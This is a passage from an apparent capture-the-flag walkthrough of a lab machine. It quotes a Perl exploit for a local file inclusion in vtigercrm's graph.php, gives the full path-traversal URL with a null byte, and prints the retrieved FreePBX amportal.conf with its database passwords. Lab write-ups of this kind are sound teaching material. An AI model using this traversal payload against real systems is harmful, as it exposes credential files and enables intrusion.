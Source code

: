 ```
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
	}
``` 
Essentially, the exploit works on the fact that there is an LFI in the *vtigercrm/graph.php* directory. And this directory is accessible because of its incapability to filter its user input.
So visiting **https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action**, should allow us to read credentials. AMPortal credentials according to the exploit. 

The output is very messy and hard to read so we can open the page source in another tab instead. 
Here is the result: 
```
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
```